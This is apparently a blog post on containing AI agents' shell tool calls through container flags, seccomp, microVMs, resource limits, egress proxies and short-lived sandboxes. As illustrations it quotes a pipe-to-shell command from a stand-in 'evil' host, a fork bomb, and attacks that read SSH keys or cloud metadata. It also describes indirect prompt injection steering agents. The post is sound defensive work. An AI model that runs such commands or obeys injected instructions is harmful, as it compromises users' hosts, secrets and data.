


## Introduction

The moment you give an agent a `bash` tool, you have handed a language model the ability to run arbitrary code on a machine. That is also the moment the agent stops being a chatbot and starts being useful. In [Anatomy of an Agent Loop](/blog/anatomy-of-an-agent-loop/) I argued the difference between a chatbot and an agent is one `while` loop. The difference between a useful agent and a liability is the sandbox around that loop.

I build and secure agentic systems for a living, and the part I spend the most time on is not the model call. It is the boundary around tool execution. Because here is the uncomfortable truth: as I covered in [Prompt Injection: Direct vs. Indirect](/blog/prompt-injection-direct-vs-indirect/), you cannot fully prevent a model from being talked into running a malicious command. A poisoned web page, a crafted file, a tool result with instructions buried in it, any of these can convince the model to call `bash("curl evil.sh | sh")`. Your defense is not to make that impossible. Your defense is to make it not matter.

This post is about containment. Not "will the model behave," but "when it does not, what can the command actually reach."

## The Threat Model

Before picking controls, name what you are defending against. Sandboxing agent execution targets a specific set of threats:

| Threat | Concrete example |
|--------|------------------|
| Host compromise | Injected command reads `~/.ssh/id_rsa` or writes to `/etc/cron.d` |
| Data exfiltration | Command posts your source tree or env vars to an attacker server |
| Credential theft | Process reads cloud metadata or environment secrets |
| Lateral movement | Command scans the internal network or hits internal services |
| Resource exhaustion | Fork bomb, fill the disk, peg every CPU, exhaust memory |
| Persistence | Command installs a backdoor that survives the session |

The attacker is rarely the user. With indirect prompt injection, the user is innocent and the payload rides in on data the agent was asked to process. So "trust the user" is not a control. The data is the adversary, and the model is a confused deputy acting on the data's behalf.

## Why Isolation, Not Just Approval

The common first answer is human-in-the-loop: pause and ask before running anything dangerous. That matters, and I use it. But approval alone fails for three reasons.

First, approval fatigue. If every `npm install` needs a click, people start clicking through without reading. Second, approval is only as good as the human's ability to spot a malicious command, and `curl https://cdn.example.com/setup.sh | sh` looks fine until you know the CDN was compromised. Third, approval does nothing about blast radius. It gates whether a command runs, not what it can touch once it does.

Sandboxing is the control that assumes the bad command will eventually run, and bounds what happens when it does. Approval and sandboxing are layers, not alternatives.

## Layer 1: Process and Filesystem Isolation

The baseline is to run every tool call in a container, not on the host. The flags matter more than the fact of a container:

```bash
docker run --rm \
  --user 1000:1000 \
  --network none \
  --read-only \
  --tmpfs /workspace:rw,size=512m \
  --cap-drop ALL \
  --security-opt no-new-privileges \
  --pids-limit 128 \
  --memory 1g --memory-swap 1g \
  --cpus 1 \
  agent-sandbox:latest /bin/sh -c "$CMD"
```

Each flag closes a door:

- `--user 1000:1000` runs as a non-root, unprivileged user. Never run agent code as root inside the container.
- `--read-only` makes the root filesystem immutable, so a command cannot write to system paths.
- `--tmpfs /workspace` gives a writable scratch directory that lives in memory and vanishes on exit. The agent works here and nowhere else.
- `--cap-drop ALL` strips every Linux capability. The container cannot mount filesystems, change ownership, or load kernel modules.
- `--security-opt no-new-privileges` blocks privilege escalation via setuid binaries.
- No host bind mounts. The host filesystem is simply not present. This single decision kills the entire class of "read the SSH key" attacks.

The principle: the container starts with nothing and is granted only what the task needs. That is privilege separation applied to tool execution.

## Layer 2: Syscall Filtering

Capabilities are coarse. Seccomp is the scalpel. A seccomp-bpf profile restricts which system calls the sandboxed process can make, so even a compromised process is limited to a safe subset of the kernel interface. Docker ships a reasonable default profile that already blocks dozens of dangerous syscalls; for agent workloads I tighten it further, denying things like `ptrace`, `mount`, `keyctl`, and the BPF syscalls outright.

For higher assurance, the better answer is a stronger isolation boundary than shared-kernel containers:

| Technology | Boundary | Tradeoff |
|------------|----------|----------|
| Docker + seccomp | Shared host kernel, filtered syscalls | Fast, weakest isolation |
| gVisor | User-space kernel intercepts syscalls | Strong isolation, some compatibility and perf cost |
| Firecracker / microVMs | Hardware-virtualized, separate kernel | Strongest isolation, more overhead per task |

If your agent runs genuinely untrusted code at scale, the question is not "container or not," it is "shared kernel or not." Shared-kernel escapes are rare but real, and a microVM removes that risk class entirely. This is the same architecture the major code-execution sandboxes use under the hood.

## Layer 3: Resource Limits

A command does not need to escape to cause an outage. It just needs to consume everything. cgroups enforce hard ceilings:

- `--memory 1g --memory-swap 1g` caps memory and, by setting swap equal to memory, disables swap so the process cannot spill to disk.
- `--pids-limit 128` caps the number of processes. This is the fork-bomb defense: `:(){ :|:& };:` hits the ceiling and stops.
- `--cpus 1` bounds CPU so one runaway task cannot starve the host.
- A wall-clock timeout on the tool call itself kills anything that hangs.

In the agent loop, I treat the timeout as part of the tool contract. The tool returns within N seconds or it returns a timeout error string, which the model reads and adapts to. Containment and the self-correcting loop reinforce each other.

## Layer 4: Network Egress Control

`--network none` is the simplest egress control: no network at all. It is also the right default. Most tool calls (running tests, editing files, building code) do not need the internet, and turning it off eliminates exfiltration and lateral movement in one move.

When a task genuinely needs network access, do not open the floodgates. Route egress through a filtering proxy with a default-deny allowlist:



The proxy enforces what no in-model defense can: it blocks private IP ranges, link-local addresses, and cloud metadata endpoints like `169.254.169.254`, and it permits only an explicit allowlist of hosts. This is SSRF protection at the network layer instead of trusting a URL string. An injected `curl` to an attacker domain fails because the domain is not on the list, not because the model declined to run it.

## Layer 5: Lifecycle and Ephemerality

The last layer is time. A sandbox should be born for a task and destroyed when the task ends. Ephemerality buys three things: a compromised sandbox cannot persist a backdoor across sessions, secrets never accumulate in a long-lived environment, and every task starts from a known-clean state. `--rm` plus an in-memory `--tmpfs` workspace means there is nothing to clean up and nothing to leak. Treat sandboxes like cattle, not pets.

## Defense in Depth

No single layer is sufficient, and that is the point. Map each threat to the layer that contains it:

| Threat | Primary control |
|--------|-----------------|
| Host file access | Read-only rootfs, no host mounts |
| Privilege escalation | Non-root user, cap-drop ALL, no-new-privileges |
| Kernel attack surface | Seccomp profile, gVisor or microVM |
| Fork bomb / resource exhaustion | cgroup memory, pids, CPU limits, timeout |
| Data exfiltration | Network none or default-deny egress proxy |
| SSRF / metadata theft | Egress proxy blocks private IPs and metadata |
| Persistence | Ephemeral, single-use sandboxes |



## Where This Fits in the Agent Loop

The sandbox does not replace the loop, it wraps the dispatch step. When the model emits a `tool_use` block for `bash`, the runtime evaluates policy, and if execution is allowed, it does not run the command on the host. It hands the command to a sandbox runner, captures stdout and stderr, truncates oversized output to protect the context window, and feeds the result back as a string. The model never knows it was sandboxed. It just sees a result and keeps going.

That separation, the model decides intent and the runtime controls capability, is the core security property of a well-built agent. The model is powerful and untrusted. The runtime is simple and trusted. You put the security boundary between them.

## Key Takeaways

**Assume the bad command runs.** You cannot make prompt injection impossible, so design for containment. The sandbox is the control that makes a successful injection survivable.

**Start from nothing and grant the minimum.** Non-root, read-only rootfs, no host mounts, all capabilities dropped. Most tool calls need almost nothing, so give them almost nothing.

**Shared kernel or not is the real question.** Seccomp-hardened containers are fine for trusted code. For genuinely untrusted execution at scale, a microVM removes the shared-kernel escape class entirely.

**Resource limits are security, not just hygiene.** A fork bomb or memory exhaustion is a denial of service. cgroup limits and timeouts turn an outage into an error string.

**Control egress at the network, not in the prompt.** A default-deny egress proxy that blocks private IPs and metadata endpoints stops exfiltration and SSRF regardless of what the model was convinced to do.

**Make sandboxes ephemeral.** One sandbox per task, destroyed on completion. No persistence means no backdoors, no secret accumulation, and a clean start every time.

The model decides what to do. The runtime decides what is possible. Keep those two jobs separate and the blast radius of any single bad decision stays small.
